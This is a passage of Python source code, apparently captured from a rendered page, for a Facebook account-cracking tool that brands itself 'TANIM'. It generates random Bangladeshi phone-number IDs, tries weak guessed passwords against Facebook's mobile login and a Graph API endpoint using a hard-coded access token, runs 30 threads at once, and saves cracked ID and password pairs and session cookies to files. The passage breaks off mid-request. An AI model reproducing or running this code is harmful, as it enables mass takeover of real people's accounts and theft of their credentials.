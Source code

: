                         complete = session.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        TANIM=session.cookies.get_dict().keys()
                        if "c_user" in TANIM:
                                coki=session.cookies.get_dict()
                                kuki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print('\r\r \033[38;5;46m[TANIM-OK] %s | %s'%(ids,pas))
                                open('/sdcard/TANIM/OK.txt', 'a').write(ids+'|'+pas+'\n')
                                ok.append(ids)
                                break
                        elif 'checkpoint' in TANIM:
                                print('\r\r\x1b[1;90m [TANIM-CP] '+ids+' | '+pas+'\033[1;97m')
                                open('/sdcard/TANIM/CP.txt', 'a').write(ids+'|'+pas+'\n')
                                cp.append(ids)
                                break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(10)
        loop+=1

def __random__():
        clear()
        print(f'\033[38;5;196m[\x1b[38;5;46m?\033[38;5;196m]\x1b[38;5;46m SIM CODE  : 017,018,019');linex()
        code = input(f'\033[38;5;196m[\x1b[38;5;46m?\033[38;5;196m]\x1b[38;5;46m CHOICE    : ')
        clear()
        print(f'\033[38;5;196m[\x1b[38;5;46m+\033[38;5;196m]\x1b[38;5;46m EXAMPLE   : 1000,3000,5000,10000');linex()
        limit = int(input(f'\033[38;5;196m[\x1b[38;5;46m?\033[38;5;196m]\x1b[38;5;46m CHOICE    : '))
        linex()
        for __Choya__ in range(limit):
                _Xx_ = ''.join(random.choice(string.digits) for _ in range(8))
                user.append(_Xx_)
        with tred(max_workers=30) as _taslim_:
                tl = str(len(user))
                clear()
                print(f'\033[38;5;196m[\x1b[38;5;46m+\033[38;5;196m]\x1b[38;5;46m SIM CODE  : \033[38;5;46m{code}')
                print(f'\033[38;5;196m[\x1b[38;5;46m+\033[38;5;196m]\x1b[38;5;46m TOTAL IDS : \033[38;5;46m{tl}')
                print(f'\033[38;5;196m[\x1b[38;5;46m+\033[38;5;196m]\x1b[38;5;46m\033[1;97m FIRST \033[1;34m[\033[1;32mON\033[1;97m/\033[38;5;196mOFF\033[1;34m] \033[1;97mAIRPLANE MODE🚀');linex()
                for love in user:
                        ids = code + love 
                        pasx = [ids,love,ids[:8],ids[:7],ids[:6],love[1:],love[2:],'bangla','ff lover','102030','203040','405060','607080','708090','@#@#@#','@@@###','09876543','00000000','bangladesh']
                        _taslim_.submit(api,ids,pasx,tl)
        print('')
        linex()
        print(f'{K} TOTAL OK {D}:-{E} {str(len(ok))}')
        linex()
#-------------------[ API-CODE ]-------------------#
def api(ids,pasx,tl):
        global loop,ok
        sys.stdout.write(f'\r\r{K} {A}[{E}TANIM{A}] [{E}{loop}{B}/{E}{tl}{A}] {E}[OK:-{len(ok)}]')
        sys.stdout.flush()
        try:
                for pas in pasx:
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        random_seed = random.Random()
                        ua=random.choice(ugen)
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        data = {
                                'adid':adid,
                                'format':'json',